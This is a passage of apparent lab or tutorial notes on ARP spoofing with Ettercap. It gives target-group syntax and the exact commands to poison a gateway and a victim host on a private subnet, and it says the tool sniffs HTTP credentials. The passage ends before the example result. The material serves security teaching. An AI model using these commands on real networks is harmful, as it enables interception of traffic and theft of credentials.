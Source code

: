 🧠 You can reverse the order — as long as gateway and target are in **separate groups**.

---

## 🔹 Target & Group Rules

* Ettercap requires **two groups**:

  * Group 1 = one endpoint (e.g. router)
  * Group 2 = other endpoint (e.g. victim)
* Formats:

  * Use `///` to target **all** hosts.
  * Use `//IP//` to specify one.
  * Use ranges like `10.22.15.9-20` to include multiple.
  * Use commas `10.22.15.9,10.22.15.10` to separate hosts.
* Fields (between slashes):

  * 1st → MAC address (optional)
  * 2nd → IP address (used most)
  * 3rd → IPv6 (optional)
  * 4th → Port (optional)

---

## 🔹 Steps Summary

1. **Check connectivity**

   ```bash
   ifconfig
   ```

   → Confirm same subnet as target.

2. **Run Ettercap ARP Spoofing**

   ```bash
   ettercap -Tq -M arp:remote -i eth0 //10.22.15.1// //10.22.15.9//
   ```

3. **Verify attack on victim**

   ```bash
   arp -a
   ```

   → The gateway MAC will now match the attacker’s MAC address.

4. **Sniffer starts automatically**

   * Ettercap listens for credentials sent over HTTP.

---

## 🔹 Example Result

When victim logs into a website (e.g. `dictionary.com`):
